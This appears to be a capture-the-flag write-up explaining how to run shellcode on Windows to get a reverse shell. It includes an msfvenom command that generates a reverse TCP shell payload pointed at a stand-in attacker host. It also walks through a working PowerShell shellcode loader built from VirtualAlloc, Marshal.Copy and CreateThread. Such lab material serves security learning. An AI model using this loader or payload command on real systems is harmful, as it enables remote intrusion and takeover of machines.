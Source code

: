 # ShellCode

In this challenge we have to execute a shellcode on a vulnerable system to make it initiate a connection back to our machine. 

We can use tools like `msfvenom` which is a command line tool within the `metasploit framework`. 

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell`

This command generates a shellcode for reverse shell. The attack box is the attackers system. 

Next we will use powershell scripting to execute the generated shellcode
We will be calling a few Win API's so lets understand that first

```c#
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

```

`@" "` This is used to define multi line string in powershell. It is then stored in VirtAlloc variable.


[System](https://learn.microsoft.com/en-us/dotnet/api/system?view=net-9.0) is a namespace that contains fundamental classes and base classes that define commonly-used value and reference data types (Intptr), events and event handlers, interfaces, attributes, and processing exceptions.

[System.Runtime](https://learn.microsoft.com/en-us/dotnet/api/system.runtime?view=net-9.0) is another namespace that provides tools to interact with unmanaged code like the windows API

`DLLImport` allows .NET code to call functions from unmanaged DLLs such as kernel32.dll

[VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) Is a Windows API function which is used to allocate memory in the process's virtual address space

```c#
public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
```

[WaitForSingleObject](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject) A Windows API function that waits until the specified object is signaled or a timeout occurs.

The object is passed to the hHandle parameter.

```c#
public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
```

[CreateThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread) A Windows API function that creates a new thread in the calling process.

`Add-Type` compiles the c# code stored in the variable. It can then be accessed using that same variable

```powershell
[Byte[]] $buf = SHELLCODE_PLACEHOLDER
```
`[Byte[]]` Declares a byte array. The placeholder will be replaced with actual shellcode, which is machine code for a payload.

```powershell
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
```

Allocates a memory region with executable and writable permissions, large enough to store the shellcode.
$addr: The memory address of the allocated region.

```powershell
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
```

Copies the shellcode from the byte array $buf into the allocated memory at $addr.

```powershell
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
```

Creates a thread that begins execution at the memory address $addr, where the shellcode resides.

```powershell
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

Waits indefinitely for the created thread to finish execution.

When the shellcode is executing, it initiates a connection back to the `ATTCACKBOX` IP address. If the attack box was actively listening then it gets the access to the shell.

![](./sc/sc1.png)

